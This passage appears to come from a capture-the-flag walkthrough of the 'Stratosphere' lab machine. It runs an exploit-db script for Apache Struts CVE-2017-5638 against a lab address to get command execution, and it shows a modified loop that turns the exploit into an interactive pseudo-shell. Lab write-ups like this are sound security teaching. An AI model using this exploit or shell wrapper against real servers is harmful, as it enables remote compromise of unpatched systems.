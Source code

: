 ![stratosphere-1.png](/assets/img/Posts/Stratosphere/stratosphere-1.png)

[This](https://medium.com/@abhishake21/rce-via-apache-struts2-still-out-there-b15ce205aa21) medium article mentions of an exploit via a specially crafted Content-Header. It also gives an auto-exploit script [here](https://github.com/mazen160/struts-pwn) which mentions **Apache Struts CVE-2017-5638**. I can even use the exploit-db script [here](https://www.exploit-db.com/exploits/41570)

```bash
$ python 41570.py http://10.10.10.64/Monitoring/example/Login_input.action id
[*] CVE: 2017-5638 - Apache Struts2 S2-045
[*] cmd: id

uid=115(tomcat8) gid=119(tomcat8) groups=119(tomcat8)
```

But this one doesn't let me have any shell.
I modified the script to give me a look of shell. This is the part that was modified.
```python
if __name__ == '__main__':
    import sys
    if len(sys.argv) != 2:
        print("[*] struts2_S2-045.py <url>")
    else:
        print('[*] CVE: 2017-5638 - Apache Struts2 S2-045')
        url = sys.argv[1]
        while True:
            cmd = raw_input("$ ")
            exploit(url, cmd)
```
